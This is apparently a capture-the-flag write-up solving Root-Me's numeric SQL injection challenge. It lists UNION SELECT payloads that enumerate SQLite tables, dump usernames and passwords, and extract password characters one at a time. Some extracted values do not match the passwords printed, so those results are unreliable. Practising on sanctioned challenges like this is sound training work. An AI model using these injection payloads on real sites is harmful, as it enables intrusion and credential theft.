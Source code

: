 # [SQL Injection: Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-numeric)

This is a similar news article site as the "SQL Injection: String" challenge. But since this 
one is called "Numeric", I bet the vulnerability lies in the GET parameter `news_id`

So if we try: `?action=news&news_id=2-1` it resolves to the first article so we know we can 
inject here.

So we should be able to show all articles with `news_id=1 or 1=1--`

And we can! Let's see how many columns we are getting back with `order by`

`news_id=1 order by 1--`

And `order by 4` returns an error, so we know the query is returning 3 columns.

Let's see the table names:

`news_id=1 union select 1,name,3 from sqlite_master where type='table'--`

We get an error... Doesn't look like we can include single-quotes in our query.

`news_id=1 union select 1,tbl_name,3 from sqlite_master--`

Ok so two tables: "users" and "news"

`news_id=1 union select 1,sql,3 from sqlite_master--`

"users" has three columns: "username","password" and "year"

`news_id=1 union select 1,username,password from users--`

There's our password.

Password is: **aTlkJYLjcbLmue3**

*Read below when I thought we could only return integers(doh)... Still 
not sure how my ascii iteration didn't work. The admin password was off for 
a couple characters...Strange.*


Let's see what data type each column has.

`news_id=1 union select 'a',null,null--` returns an error

`news_id=1 union select 1,null,null--` works! So the first column is an integer.

`news_id=1 union select 1,'a',null--` returns an error

`news_id=1 union select 1,2,null--` works! So the second column is an integer.

`news_id=1 union select 1,2,'a'--` returns an error

`news_id=1 union select 1,2,3--` works! So each column is an integer.

This makes it difficult to directly extract text information from the database like 
usernames and passwords. But SQLite does have a `unicode()` function that will return the 
ascii value of the first character of a string so we could combine that with the `substr()`
function to extract two characters at a time.

`news_id=1 union select 1,unicode(substr(password,1,1)),unicode(substr(password,2,1)) from users where username='admin'--`

We get an error that looks like our single quotes are being escaped. So we can't explicitly call out the admin user 
by name. Let's just see how many users there are.

`news_id=1 union select 1,count(*),3 from users--`

There are 3 users. We can just hope the first user is the admin and if not there's only two more to try so let's do this.

`news_id=1 union select 1,unicode(substr(password,1,1)),unicode(substr(password,2,1)) from users limit 1--`

And we'll work our way up the password collecting ASCII values:

`97 70 106 82 74 89 55 106 57 100`

We could have wrote a script to do that but I was hoping the password was short and it was. It took us five queries to 
get the ASCII values of the ten character password. Take this over to an online converter and bam!

The password is *aFjRJY7j9d*

But that was wrong... Crap we must have gotten the wrong user. Let's try the next one.

`news_id=1 union select 1,unicode(substr(password,1,1)),unicode(substr(password,2,1)) from users limit 1,1--`

`97 84 108 107 75 120 76 106 84 88 76 109 117 101 51`

Let's try this pass: *aTlkKxLjTXLmue3*

Wrong again! Of course it had to be the last user we tried... isn't that how it always is?

`news_id=1 union select 1,unicode(substr(password,1,1)),unicode(substr(password,2,1)) from users limit 2,1--`

`118 85 114 112 103 65 115 67 99 98`

Last try: *vUrpgAsCcb*

That didn't work either... What am i missing?











